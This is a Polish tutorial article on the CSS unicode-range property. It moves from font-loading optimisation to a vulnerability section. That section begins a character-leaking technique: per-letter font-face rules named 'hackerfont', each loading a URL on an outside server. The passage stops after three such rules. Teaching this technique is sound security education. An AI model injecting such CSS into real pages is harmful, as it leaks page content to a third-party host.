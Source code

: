 Na pewno niejednokrotnie dodawałaś/eś do swojej strony bądź aplikacji niestandardowego fonta, prawda? Więc bez wątpienia nieobcy jest Ci <code>font-face</code>. Oto przykład, w którym importuję fonta o nazwie Roboto z pliku roboto.woff2:

<pre class="language-css"><code>/* latin */
@font-face {
  font-family: 'Roboto';
  font-style: normal;
  font-weight: 400;
  src: url(https://fonts.gstatic.com/…/roboto.woff2) format('woff2');
  unicode-range: U+0000-00FF, U+0131, U+0152-0153, U+02C6, U+02DA, U+02DC, U+2000-206F, U+2074, U+20AC, U+2212, U+2215;
}</code></pre>

Ale czy wiesz do czego służy ostatnia właściwość <code>unicode-range</code>? Pozwala ona na zadeklarowanie <strong>jakie znaki znajdują się w konkretnym pliku z fontem</strong>. I tak, przykładowo, wyobraź sobie, że <code>roboto.woff2</code> zawiera alfabet łaciński, a <code>roboto-ext.woff2</code> zawiera literki z „ogonkami” typu ą ę ć ź itd. W takiej sytuacji tworzymy dwie definicje <code>font-face</code> z różnymi <code>unicode-range</code>:

<pre class="&quot;language-css"><code>/* latin */
@font-face {
  …
  src: url(roboto.woff2) format('woff2');
  unicode-range: U+0000-00FF, U+0131, U+0152-0153, U+02C6, U+02DA, U+02DC, U+2000-206F, U+2074, U+20AC, U+2212, U+2215;
}

/* latin-ext */
@font-face {
  …
  src: url(roboto2.woff2) format('woff2');
  unicode-range: U+0100-024F, U+1E00-1EFF, U+20A0-20AB, U+20AD-20CF, U+2C60-2C7F, U+A720-A7FF;
}</code></pre>

Jeśli kiedykolwiek używałaś/eś Google Fonts to (prawdopodobnie nawet o tym nie wiedząc) używałaś/eś <code>unicode-range</code>. Google dodaje to domyślnie do swoich fontów :)

<h3>Po co mi <code>unicode-range</code>?</h3>

Otóż w rezultacie przeglądarka rozpocznie pobieranie drugiego pliku (z „ogonkami”) tylko jeśli na stronie rzeczywiście zostały te ogonki użyte. Po co? Dla <strong>poprawy wydajności</strong>, zmniejszenia transferu i liczby zapytań. Ogólnie: Optymalizacja.

Realny przykład: Mamy stronę korporacji, która ma podstrony po arabsku, angielsku i polsku. Na podstronie arabskiej pobierze się tylko plik z arabskimi znaczkami, na angielskiej tylko łacińskie znaki, a na polskiej pobiorą się łacińskie oraz „ogonki”. Brzmi dobrze, prawda?

<h3>Podatność</h3>

A co się stanie jeśli zdefiniujemy po jednym <code>font-face</code> z osobnym URL fonta dla każdego znaku w alfabecie? Będzie to wyglądało jakoś tak:

<pre class="language-css"><code>@font-face{
    font-family: hackerfont;
    src: url(http://typeofweb.com/char/A);
    unicode-range:U+0041;
}
@font-face{
    font-family: hackerfont;
    src: url(http://typeofweb.com/char/B);
    unicode-range:U+0042;
}
@font-face{
    font-family: hackerfont;
    src: url(http://typeofweb.com/char/C);
    unicode-range:U+0043;
}